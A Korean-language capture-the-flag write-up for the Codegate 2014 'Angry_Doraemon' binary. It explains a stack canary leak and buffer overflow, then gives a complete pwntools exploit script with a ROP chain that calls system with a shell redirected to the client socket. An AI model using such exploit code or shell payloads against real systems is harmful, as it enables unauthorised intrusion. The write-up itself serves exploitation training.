





# 주의 사항

이 문제를 풀려면 바이너리 외에도

* doraemon.txt
* bread.txt
* mouse.txt

가 있어야 합니다. (내용은 영향을 끼치지 않음 ㅎㅎ..)


# Codegate Quals 2014 Angry_Doraemon 풀이

문제 요약 : Canary leak 및 read를 통한 Stack buffer overflow를 요구하는 문제


일단 이 문제의 취약점은 Mouse 메뉴에 있었다.



분명 buf는 10byte가 할당되었는데, read로 110의 크기만큼 넣을 수 있으니 buffer overflow를 일으킬 수 있다.

그리고 그 밑에 sprintf를 보면 buf의 값을 NULL을 만날 때까지 출력해주니 10바이트 만큼 채워주면 canary가 leak이 될 것이다.


일단 10바이트를 넣어서 leak이 되나 확인을 해본다.



ㅇㅇ?  10바이트("y"*9 + "\n")을 넣어도 canary가 leak이 안된다.

다른 문제에서도 봤듯이 아마 11바이트가 "\x00"이라서 11바이트까지 채워줘야하는 것 같다.

11바이트 까지 채워서 보면



"\xdd\x9d\x37" 및 여러 개가 더 붙어서 나왔다. 아마 canary는 0x379ddd00인 것 같다.


canary를 leak했으니 이젠 rop를 하면 될 것인데, sub_8048B30(Sword) 메뉴를 보면 쌩뚱맞게



/bin/sh가 있다;;; 이 영역으로 eip를 탈려고 했는데, execl("/bin/sh", "sh", 0) 함수는 서버 쪽에서 쉘을 열기 때문에 client에서는 아무 것도 못한다 ㅎ..

그래서 리다이렉트로 client에서 쉘을 따야 한다. 이를 바탕으로 페이로드를 작성하면

```python
from pwn import *

#context.log_level = "debug"

binary = "angry_doraemon"
libc = "/lib/i386-linux-gnu/libc.so.6"

#==========================Canary leak==========================#
r = remote('localhost', 8888)

r.recvuntil(">")
r.sendline("4")
r.recvuntil("Are you sure? (y/n)")
r.send("y"*11)
r.recvuntil("y"*11)
canary = "\x00"
canary += r.recv(3)
r.close()

#============================Exploit=============================#
r = remote('localhost', 8888)

system = 0xf75f4da0
read_plt = 0xf768faf0
read_got = 0xf768fb20
write_plt = 0xf768fb60
write_got = 0xf768fb90
pppr = 0x08048b2c
bss = 0x0804b080

print "[*] Canary Value : " + hex(u32(canary))
r.recvuntil(">")
r.sendline("4")
r.recvuntil("Are you sure? (y/n)")

payload = "A"*10
payload += canary
payload += "B"*12

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)

payload += p32(system)
payload += "FLAG"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")
r.interactive()
r.close()
```

이렇게 완성이 된다 ㅎㅎ..

각각의 주소는 sleep으로 약간의 텀을 준 다음, gdb로 attach를 걸어 찾았다.


암튼 실행을 하면??



성공이다!!